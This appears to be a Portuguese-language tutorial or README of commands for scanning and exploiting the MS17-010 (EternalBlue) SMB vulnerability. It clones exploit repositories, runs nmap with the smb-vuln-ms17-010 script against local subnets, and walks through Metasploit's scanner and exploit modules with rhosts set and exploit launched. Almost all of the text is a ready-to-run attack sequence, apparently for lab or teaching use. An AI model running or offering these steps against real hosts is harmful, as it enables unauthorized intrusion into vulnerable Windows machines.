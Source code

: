 git clone https://github.com/vaamonde/nmap-nse-scripts
 
git clone https://github.com/vaamonde/exploit

git clone https://github.com/vaamonde/Eternalblue-Doublepulsar-Metasploit

git clone https://github.com/vaamonde/FakeImageExploiter

Verificar versão do NMAP:<br>	nmap --version<br>
				man nmap<br>
				
nmap -O -A -sV 10.26.46.0/24<br>
-O = detecção do Sistema Operacional<br>
-A = detecção do Sistema Operacional e Versão<br>
-sV = detecção do Sistema Operacional e Versão<br>

nmap -sS 10.26.46.45/24
-sS = detecção de portas TCP

nmap -d -sC -p445 --open --max-hostgroup 3 --script nmap-nse-scripts/scripts/smb-vuln-ms17-010.nse localhost<br>
-d = habilita a Debug (log detalhado, pode ir até a opção 9)<br>
-sC = habilitar o rastreamento de scan de portas<br>
-p = número da porta a rastrear (445 - Microsoft-df - SMB/CIFS)<br>
--open = verificar somente portas abertas<br>
--max-hostgroup = número máximo de grupos para o scaneamento<br>
--script = indicar script remoto para o scan<br>

nmap -d -sC -p445 --open --max-hostgroup 3 --script nmap-nse-scripts/scripts/smb-vuln-ms17-010.nse 192.168.1.0/24<br>

nmap -d -sC -p445 --open --max-hostgroup 3 --script nmap-nse-scripts/scripts/smb-vuln-ms17-010.nse 192.168.1.150<br>

Atualizar o Metasploit:		msfupdate<br>
Acessar o Metasploit:		msfconsole<br>
Reload dos Exploit		reload_all<br>
Acessar o Modo Scan:<br>		use auxiliary/scanner/smb/smb_ms17_010<br>
				show options<br>
				set rhosts 192.168.1.1<br>
				exploit<br>
							
Acessar o modo Exploit:	<br>	use exploit/ms17_010/ms_17_010<br>
				show options<br>
				set rhosts 192.168.1.1<br>
				exploit<br>
